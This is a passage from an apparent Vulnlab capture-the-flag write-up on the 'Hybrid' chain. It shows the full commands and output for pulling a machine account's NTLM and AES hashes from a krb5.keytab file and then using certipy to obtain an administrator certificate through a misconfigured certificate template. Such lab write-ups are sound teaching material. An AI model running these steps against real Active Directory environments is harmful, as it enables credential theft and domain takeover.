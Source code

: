 Seeing, the **Enrollement Rights** from the certipy output before, found that only Domain Computers have rights :

<img src="attachments/b7d3073655b6773a0f7830e6bbe09c59.png" />

As we had the Domain-joined `MAIL01$` machine, we enumerated further on `MAIL01` and found the **/etc/krb5.keytab** file, which is used to authenticate to Kerberos without human interaction or storing the password.

We transferred the `krb5.keytab` file to our machine using `wget` and used [**keytabextract.py**](https://github.com/sosdave/KeyTabExtract) to extract information about `MAIL01$` and its hashes.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ python3 keytabextract.py krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HYBRID.VL
        SERVICE PRINCIPAL : MAIL01$/
        NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458
```

Using the hash of **MAIL01**$, Requesting certificate for Template “**HybridComputers**”, for Administrator UPN(User Principal Name) and setting key-size to **4096**, as mentioned “Minimum RSA Key Length”.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Chains/Hybrid]
└─$ certipy-ad req -u 'MAIL01$'@hybrid.vl -hashes 0f916c5246fdbc7ba95dcef4126d57bd -c 'hybrid-DC01-CA' -target 'hybrid.vl' -template 'HybridComputers' -upn 'administrator@hybrid.vl' -dc-ip 10.10.155.165 -key-size 4096 -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

/usr/lib/python3/dist-packages/certipy/commands/req.py:459: SyntaxWarning: invalid escape sequence '\('
  "(0x[a-zA-Z0-9]+) \([-]?[0-9]+ ",
[+] Trying to resolve 'hybrid.vl' at '10.10.155.165'
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.155.165[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.155.165[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with UPN 'administrator@hybrid.vl'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
